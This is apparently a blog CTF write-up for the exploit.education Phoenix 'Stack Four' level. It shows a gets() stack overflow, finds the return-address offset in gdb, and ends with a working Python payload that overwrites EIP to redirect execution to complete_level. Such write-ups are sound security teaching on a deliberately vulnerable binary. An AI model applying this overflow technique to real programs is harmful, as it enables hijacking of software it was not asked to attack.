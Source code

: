 ```yaml
---
layout: post
title: "exploit.education Phoenix - Stack 0x4"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Stack Four](https://exploit.education/phoenix/stack-four/)

<!--more-->

The goal is to redirect execution to `complete_level` by overflowing the saved instruction pointer.

Analyzing the binary / source reveals a stack buffer overflow in the start_level function. 

```c
char buffer[64];
void *ret;

gets(buffer);
```

This means by providing a buffer larger than 64 bytes, we can overflow the saved instruction pointer. The question is, where exactly is it relative to the buffer?

To find this out we run the binary with gdb, feed it exactly 64 bytes of input data, and look at the stack at the end of `complete_level`.

```bash
python -c 'print "A"*64' > ~/64_bytes
gdb stack-four
break *start_level+46
r < ~/64_bytes
x/x32w $esp

0xffffd5a0:     0xf7ffb1e0      0xffffd5bf      0x00000001      0x41414141
0xffffd5b0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5c0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffd5e0:     0x41414141      0x41414141      0x41414141      0x0804855c
0xffffd5f0:     0x08048610      0x00000000      0xffffd608      0x0804855c
0xffffd600:     0x00000000      0xffffd620      0xffffd69c      0xf7f8f654
0xffffd610:     0xffffd694      0x00000001      0xffffd69c      0xf7f8f654
```

As we can see, right after our buffer is the local variable `ret`which contains the return address `0x0804855c` which we also see one row below. This means the stored instruction pointer is at offfset `sizeof(buffer) + 16`.

After getting the address of complete_level via objdump, exploitation is trivial.

```bash
user@phoenix-amd64:/opt/phoenix/i486$ objdump -t stack-four | grep complete_level
080484e5 g     F .text  00000020 complete_level
```

# Exploit

1. Overflow buffer
2. add 16 bytes of padding
3. Overwrite EIP with address of complete_level

```bash
user@phoenix-amd64:/opt/phoenix/i486$ python -c 'print "A"*64+ "B"*16+"\x08\x04\x84\xe5"[::-1]' | ./stack-four
Welcome to phoenix/stack-four, brought to you by https://exploit.education
and will be returning to 0x80484e5
Congratulations, you've finished phoenix/stack-four :-) Well done!
```
